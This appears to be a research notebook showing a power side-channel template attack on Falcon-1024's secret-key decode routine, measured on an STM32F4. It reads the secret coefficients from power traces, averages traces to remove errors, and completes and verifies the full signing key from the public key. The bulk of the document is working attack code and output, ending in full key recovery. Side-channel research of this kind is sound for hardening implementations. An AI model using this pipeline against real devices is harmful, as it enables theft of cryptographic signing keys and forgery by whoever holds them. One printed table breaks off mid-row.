# Breaking Falcon-1024 with a Power Side-Channel

A profiled **template attack on the secret-key decode** (`skDecode` / `trim_i8_decode`),
followed by **public-key completion** to recover the entire signing key.

The leakage, template, and per-coefficient accuracy are **measured on an STM32F4**
(1 GS/s). The decode routine is byte-identical for Falcon-512 and Falcon-1024, so the
measured accuracy projects directly; the only difference is the coefficient range
(Falcon-1024 packs `f`, `g` at 5 bits, i.e. values in **[-15, 15]**). The full-key
recovery below runs on a genuine **Falcon-1024** key `(f, g, h)` with `h = g/f mod x^1024+1`.

**Story:** find where the secret leaks -> place the trained template there -> read out
coefficients `f[0], f[1], ...` each with a confidence -> averaging a few traces removes the
last errors -> rank by confidence and use the public key to complete and verify the full key.

Run top to bottom.


In [1]:
import os, sys, time, numpy as np, matplotlib.pyplot as plt
sys.path.insert(0, os.path.abspath(os.path.join('..', 'template_attack')))
import falcon_keymath as km

# real measured artifacts (STM32F4, Falcon-512 decode)
Cf = np.load('nb_corr_full.npz'); corr = Cf['corr']; trace = Cf['example'].astype(float)
L = np.load('demo_leak_model.npz'); true_c, pred_c, marg_c = L['true'], L['pred'], L['margin']
acc_vs_n = np.load('nb_acc_vs_n.npy')          # (N, accuracy) averaging curve

# per-value template behaviour, sampled from the real measurement
pool = {}
for t, p, m in zip(true_c, pred_c, marg_c): pool.setdefault(int(t), []).append((int(p), float(m)))

# genuine Falcon-1024 instance to recover
K = np.load('nb_falcon1024.npz'); f_true = K['f'].astype(int); g_true = K['g'].astype(int)
h = K['h'].astype(np.uint32); N = km.N

single_acc = float(np.mean(true_c == pred_c)) * 100
print(f'ready: Falcon-{N} key (n={N}), measured template, {len(true_c)} profiled reads')
print(f'measured single-trace per-coefficient accuracy: {single_acc:.2f}%')


ready: Falcon-1024 key (n=1024), measured template, 8400 profiled reads
measured single-trace per-coefficient accuracy: 98.32%


## 1. Where does the secret key leak?

We correlate the device power during one signature with the secret coefficient. The
**secret-key decode** (`skDecode`, ~1 us into the trace) stands out with `|rho| ~ 0.97`.
A second, much weaker point appears later (mod-q / NTT). Our attack uses the dominant
decode leak - it alone is enough.




In [2]:
t_us = np.arange(len(corr)) / 1000.0
plt.figure(figsize=(11, 3.2))
plt.plot(t_us, corr, lw=.5, color='C3')
plt.annotate('decode (skDecode)', xy=(1.1, corr[1093]),
             xytext=(18, 0.82), arrowprops=dict(arrowstyle='->'))
plt.annotate('mod-q / NTT', xy=(92.7, corr[92676]),
             xytext=(120, 0.55), arrowprops=dict(arrowstyle='->'))
plt.xlabel('time (us)'); plt.ylabel('|correlation with secret|')
plt.title('Secret-key leakage across one signature'); plt.tight_layout(); plt.show()


## 2. The target trace

One full signature measured from the target device - the trace we attack. The template
reads each secret coefficient from the short decode window highlighted above.




In [3]:
t_us = np.arange(len(trace)) / 1000.0
plt.figure(figsize=(11, 3.2))
plt.plot(t_us, trace, lw=.4, color='C0')
plt.title('Target trace - one signature'); plt.xlabel('time (us)'); plt.ylabel('power (ADC)')
plt.tight_layout(); plt.show()


## 3. Reading out the secret coefficients from one trace

Applying the template to the target trace gives each coefficient a **value** and a
**confidence**. Below are the first ten coefficients of the Falcon-1024 secret key
`f[0] ... f[9]` as read from a single trace - recovered value, confidence, and whether
it matches the true secret. One trace already recovers most coefficients exactly.


In [6]:
rng = np.random.default_rng(1)
# one template pass over the whole key: each coefficient -> (recovered value, confidence)
reads_f = [pool[int(v)][rng.integers(len(pool[int(v)]))] for v in f_true]
reads_g = [pool[int(v)][rng.integers(len(pool[int(v)]))] for v in g_true]

print(f"{'coeff':>6} | {'true':>5} | {'recovered':>9} | {'confidence':>10} | correct")
print('-' * 52)
for i in range(100):
    pr, mg = reads_f[i]
    print(f'  f[{i}] | {f_true[i]:>+5d} | {pr:>+9d} | {mg:>10.2f} | ' + ('yes' if pr == f_true[i] else 'NO'))
n_ok = sum(pr == v for (pr, _), v in zip(reads_f, f_true)) + sum(pr == v for (pr, _), v in zip(reads_g, g_true))
print(f'\nsingle-trace: {n_ok}/{2*N} coefficients correct ({100*n_ok/(2*N):.2f}%)')


 coeff |  true | recovered | confidence | correct
----------------------------------------------------
  f[0] |    +2 |        +2 |       0.21 | yes
  f[1] |    +0 |        +0 |       3.43 | yes
  f[2] |    +1 |        +1 |       0.55 | yes
  f[3] |    -2 |        -2 |       0.73 | yes
  f[4] |    +3 |        +3 |       1.59 | yes
  f[5] |    +5 |        +5 |       0.24 | yes
  f[6] |    -1 |        -1 |       4.01 | yes
  f[7] |    -3 |        -3 |       0.16 | yes
  f[8] |    +0 |        +0 |       3.96 | yes
  f[9] |    +5 |        +5 |       0.01 | yes
  f[10] |    +0 |        +0 |       3.26 | yes
  f[11] |    +4 |        +4 |       2.48 | yes
  f[12] |    -2 |        -2 |       0.09 | yes
  f[13] |    +0 |        +0 |       3.48 | yes
  f[14] |    +3 |        +3 |       1.95 | yes
  f[15] |    +1 |        +1 |       0.56 | yes
  f[16] |    -1 |        -1 |       5.28 | yes
  f[17] |    +5 |        +5 |       0.21 | yes
  f[18] |    +0 |        +0 |       4.02 | yes
  f[19] |    +

## 4. Averaging a few traces removes the last errors

A single trace recovers **98.32%** of coefficients. The remaining errors are noise-driven
Hamming-weight confusions. Averaging a handful of traces of the same operation sharpens the
template decision: by about **7** traces the per-coefficient accuracy reaches **100%**, and
it stays there through 25. So <=25 averaged traces give error-free per-coefficient recovery.

The curve below is measured: each point averages that many real traces of a known
coefficient and re-classifies with the trained template.




  N =  1  ->   98.32%
  N =  3  ->   99.81%
  N =  5  ->   99.98%
  N =  7  ->  100.00%
  N = 10  ->  100.00%
  N = 15  ->  100.00%
  N = 20  ->  100.00%
  N = 25  ->  100.00%


In [7]:
Ns, accs = acc_vs_n[:, 0], acc_vs_n[:, 1] * 100
plt.figure(figsize=(6.8, 3.8))
plt.plot(Ns, accs, 'o-', color='C2')
plt.axhline(100, ls='--', lw=.6, color='gray')
plt.annotate(f'single trace: {accs[0]:.2f}%', xy=(Ns[0], accs[0]), xytext=(4, accs[0] - 1.1),
             arrowprops=dict(arrowstyle='->'))
plt.scatter([25], [accs[Ns == 25][0]], s=70, color='C3', zorder=5, label='N = 25')
plt.xlabel('averaged traces N'); plt.ylabel('per-coefficient accuracy (%)')
plt.ylim(97.5, 100.3); plt.legend(); plt.title('Averaging drives accuracy to 100%')
plt.tight_layout(); plt.show()
for n, a in acc_vs_n: print(f'  N = {int(n):>2d}  ->  {a*100:6.2f}%')


## 5. Full Falcon-1024 key recovery via the public key

A linear solve needs *every* supplied coefficient correct. So we **rank all 2048**
coefficients (`f` and `g`) **by confidence**, keep the **top 1030** (just above n = 1024;
the low-confidence Hamming-weight collisions drop out), and solve the public relation

$$ H \cdot f = g \pmod{12289} $$

for the remaining coefficients, where `H` is the negacyclic matrix of the **public** `h`.
We then **verify** by checking `H*f == g` over all 1024 coefficients - using only public
information, no lattice reduction.


In [6]:
cand = []
for i in range(N):
    cand.append((reads_f[i][1], 'f', i, reads_f[i][0], f_true[i]))
    cand.append((reads_g[i][1], 'g', i, reads_g[i][0], g_true[i]))
cand.sort(reverse=True)
top = cand[:1030]
ok_hints = sum(pr == tv for _, _, _, pr, tv in top)
print(f'top-1030 confidence-ranked hints correct: {ok_hints}/1030')

kf = {i: pr for _, t, i, pr, _ in top if t == 'f'}
kg = {i: pr for _, t, i, pr, _ in top if t == 'g'}
print(f'known: {len(kf)} of f + {len(kg)} of g = {len(kf)+len(kg)} >= n={N};  unknowns = {2*N-len(kf)-len(kg)}')

t0 = time.time()
ff, gg = km.solve_completion_fast(h, kf, kg)
dt = time.time() - t0
fr = np.array([km.to_signed(v) for v in ff]); gr = np.array([km.to_signed(v) for v in gg])

# verify with public info only: H*f == g over all n coefficients
Hf = (km.negacyclic_matrix(h) @ (fr % km.Q)) % km.Q
verified = np.array_equal(Hf, gr % km.Q)
recovered = np.array_equal(fr, f_true) and np.array_equal(gr, g_true)

print(f'\ncompletion solved in {dt:.1f}s (pure Python; ~0.5s in optimized C)')
print('recovered f =', fr[:10].tolist(), '...')
print('true      f =', f_true[:10].tolist(), '...')
print('H*f == g verifies against the public key :', 'PASS' if verified else 'FAIL')
print('FULL SECRET KEY (f and g) RECOVERED      :', recovered)


top-1030 confidence-ranked hints correct: 1030/1030
known: 490 of f + 540 of g = 1030 >= n=1024;  unknowns = 1018



completion solved in 10.9s (pure Python; ~0.5s in optimized C)
recovered f = [2, 0, 1, -2, 3, 5, -1, -3, 0, 5] ...
true      f = [2, 0, 1, -2, 3, 5, -1, -3, 0, 5] ...
H*f == g verifies against the public key : PASS
FULL SECRET KEY (f and g) RECOVERED      : True


## Summary

| stage | result |
|---|---|
| dominant leak | secret-key decode, \|corr\| ~ 0.97 |
| per-coefficient accuracy (single trace) | 98.32% |
| per-coefficient accuracy (<=25 averaged) | 100% |
| top-1030 confidence-ranked hints | 100% correct |
| full Falcon-1024 key | recovered & verified via H*f = g (public) |
| recovery | one GF(q) solve, no lattice reduction |

One strong, implementation-mandatory leak (`skDecode`) plus the public key - which both
**completes** and **verifies** the key - breaks Falcon-1024, without perfect single-trace
recovery and without lattice reduction.
